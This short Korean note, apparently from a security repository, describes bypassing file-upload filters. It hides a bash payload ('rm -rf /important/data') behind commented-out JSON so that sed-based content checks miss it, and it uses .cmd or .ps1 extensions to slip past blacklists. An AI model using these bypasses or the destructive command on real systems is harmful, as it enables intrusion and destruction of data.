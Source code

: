 # FILE UPLOAD 공격 우회  
  
파일의 복호화된 내용을 sed로 읽고 검사하는 경우 주석 처리로 우회 가능  
#!/bin/bash  
rm -rf /important/data  
#{  
#"key": "authentication code"  
#}  

-----------------------------------------------  
확장자가 블랙리스트 방식으로 허용될 경우  
.cmd , .ps1 등의 확장자로 우회하여 악성 파일 배포 가능  
